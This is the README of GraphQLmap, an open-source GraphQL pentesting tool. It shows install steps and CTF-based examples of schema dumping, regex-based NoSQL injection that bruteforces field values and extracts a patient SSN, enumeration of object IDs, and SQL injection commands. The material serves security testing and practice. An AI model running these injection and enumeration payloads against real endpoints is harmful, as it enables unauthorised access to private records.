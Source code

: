 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - Execute GraphQL queries
  - Autocomplete queries
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
    - [Example 1 - Bruteforce a character](#example-1---bruteforce-a-character)
    - [Example 2 - Iterate over a number](#example-2---iterate-over-a-number)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone https://github.com/swisskyrepo/GraphQLmap
$ python setup.py install
$ graphqlmap                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]] [--json [USE_JSON]] [--proxy [PROXY]]

optional arguments:
  -h, --help           show this help message and exit
  -u URL               URL to query : example.com/graphql?query={}
  -v [VERBOSITY]       Enable verbosity
  --method [METHOD]    HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS]  HTTP Headers sent to /graphql endpoint
  --json [USE_JSON]    Use JSON encoding, implies POST
  --proxy [PROXY]      HTTP proxy to log requests
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```py
# Connect using POST and providing an authentication token
graphqlmap -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

# Pass request through Burp Proxy
graphqlmap -u "http://172.17.0.1:5013/graphql" --proxy http://127.0.0.1:8080
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automatically populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

#### Example 1 - Bruteforce a character

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

#### Example 2 - Iterate over a number

Use `GRAPHQL_INCREMENT_` followed by a number.

```powershell
GraphQLmap > { paste(pId: "GRAPHQL_INCREMENT_10") {id,title,content,public,userAgent} }
[+] Query: (45) { paste(pId: "0") {id,title,content,public,userAgent} }
[+] Query: (245) { paste(pId: "1") {id,title,content,public,userAgent} }
[+] Query: (371) { paste(pId: "2") {id,title,content,public,userAgent} }
[+] Query: (309) { paste(pId: "3") {id,title,content,public,userAgent} }
[+] Query: (311) { paste(pId: "4") {id,title,content,public,userAgent} }
[+] Query: (308) { paste(pId: "5") {id,title,content,public,userAgent} }
[+] Query: (375) { paste(pId: "6") {id,title,content,public,userAgent} }
[+] Query: (315) { paste(pId: "7") {id,title,content,public,userAgent} }
[+] Query: (336) { paste(pId: "8") {id,title,content,public,userAgent} }
[+] Query: (377) { paste(pId: "9") {id,title,content,public,userAgent} }

GraphQLmap > { paste(pId: "9") {id,title,content,public,userAgent} }
{ paste(pId: "9") {id,title,content,public,userAgent} }
{
    "data": {
        "paste": {
            "content": "I was excited to spend time with my wife without being interrupted by kids.",
            "id": "UGFzdGVPYmplY3Q6OQ==",
            "public": true,
            "title": "This is my first paste",
            "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0"
        }
    }
}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```

## Practice

* [Damn Vulnerable GraphQL Application - @dolevf](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application/blob/master/setup.py)

## TODO

* GraphQL Field Suggestions : Find 
* Generate mutation query
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
